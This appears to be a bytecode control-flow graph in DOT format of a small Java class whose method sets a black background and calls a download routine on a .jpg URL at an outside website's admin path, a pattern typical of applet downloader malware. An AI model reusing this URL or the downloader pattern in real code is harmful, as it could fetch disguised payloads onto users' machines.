 digraph "" {
"staticget <java.awt.Color: java.awt.Color BLACK>";
 "staticget <java.awt.Color: java.awt.Color BLACK>"->"virtualinvoke <Main: void setBackground(java.awt.Color)>";
 "virtualinvoke <Main: void setBackground(java.awt.Color)>"->"push 'http://www.corvinasnest.com/lists/admin/web/ccm4.jpg'";
 "push 'http://www.corvinasnest.com/lists/admin/web/ccm4.jpg'"->"virtualinvoke <Main: void download(java.lang.String,java.lang.String,java.lang.String)>";
 "virtualinvoke <Main: void download(java.lang.String,java.lang.String,java.lang.String)>"->"return";
}
